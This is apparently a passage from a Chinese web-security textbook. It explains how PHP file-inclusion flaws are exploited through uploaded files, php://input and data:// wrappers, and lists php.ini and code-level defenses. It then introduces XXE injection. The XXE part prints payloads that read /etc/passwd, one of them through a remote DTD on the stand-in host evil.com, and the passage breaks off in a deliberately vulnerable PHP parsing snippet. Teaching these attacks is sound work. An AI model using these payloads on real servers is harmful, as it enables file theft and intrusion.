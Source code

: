 2. 本地文件包含读取任意文件内容的利用效果如下图所示：  

![本地文件包含读取文件](../images/chapter_7_igbag/php-include-local-1.png)

3. 本地文件包含执行 PHP 代码。
    - 不依赖于修改 PHP 的默认运行时配置即可完成任意 PHP 代码执行
    - 但相比较于远程文件包含方式，本地文件包含漏洞的利用往往需要配合 文件上传 漏洞利用才能达成目的
    - 攻击者需要先上传包含 PHP 代码的文件到服务器上，然后还需要知道已上传文件存储在服务器上的路径（绝对路径或相对当前脚本执行环境的相对路径）
    - 进而通过控制文件包含参数的赋值来加载刚刚上传的恶意文件中的 PHP 代码

4. 利用 `php://input`。  

[php://input](https://www.php.net/manual/zh/wrappers.php.php#wrappers.php.input) 是个可以访问请求的原始数据的只读流。  
在使用 POST 方式请求时，HTTP 请求体中的数据会赋值给 HTTP 请求头中对应 GET 变量值为 `php://input` 的变量。

如下图所示，使用 curl 构造了一个这样的请求，其中 HTTP 请求体中对应的是一段 PHP 代码：在当前脚本目录下执行操作系统 ls 命令。

![利用php://input](../images/chapter_7_igbag/php-include-php-input-0.png)
注意这种漏洞利用方式，同样依赖于 PHP 的运行时配置 `allow_url_include=On`，否则漏洞利用会失败

5.  利用 [data://](https://www.php.net/manual/zh/wrappers.data.php)。

除了上述几种文件包含漏洞的利用方式，在实践中还有利用 [php://filter](https://www.php.net/manual/zh/wrappers.php.php#wrappers.php.filter)、`PHP %00` 截断漏洞等方式实现文件包含漏洞的利用。

防御 PHP 文件包含漏洞
- 修改 PHP 的运行时配置文件 php.ini
    - 开启 open_basedir 函数，将其设置为指定目录，则只有该目录的文件允许被访问
    - allow_url_include=Off 禁止远程文件包含
    - 从代码级别避免和修复文件包含漏洞
        - 过滤文件包含路径变量的输入，采用白名单方式包含文件
        - 建议禁止从程序外部输入读取包含文件的路径

### XXE 注入
XXE 的全称是 XML External Entity（XML 外部实体） 。  

如果 XML 解析器未净化并验证外部提供的 XML 输入，那么负责解析 XML 的应用程序就会面临着注入攻击的风险。  
此类注入攻击可能导致敏感数据泄露、拒绝服务攻击、服务器端请求伪造、远程代码执行，甚至被用于执行应用程序托管服务器的网络端口扫描。  
以下 2 个 XML 片段均包含 XXE 攻击代码，分别对应直接读取本地文件和加载执行远程 DTD 文件中的 XML 代码读取本地文件。
```xml
<!-- 利用外部 DTD，读取系统文件 /etc/passwd -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<a>
        <!-- 读取到的 /etc/passwd 文件内容被保存在 passwd 变量中 -->
        <value>&passwd;</value>
</a>
<!-- 参数实体定义 -->
<?xml version="1.0" encoding="utf-8"?>
```
```xml
<!DOCTYPE aaa [
    <!ENTITY %f SYSTEM "http://evil.com/evil.dtd">
    %f;
]>
<aaa>&b;</aaa>

<!-- 其中 evil.dtd 文件内容如下 -->
<!ENTITY b SYSTEM "file:///etc/passwd">
```
以 PHP 的内置 DOM 解析 XML 为例，一个典型的存在 XXE 漏洞的代码如下：
```php
<?php
$xml = file_get_contents('php://input'); // 允许用户上传 XML 代码片段

$dom = new DOMDocument();

// ref: http://php.net/manual/zh/libxml.constants.php
```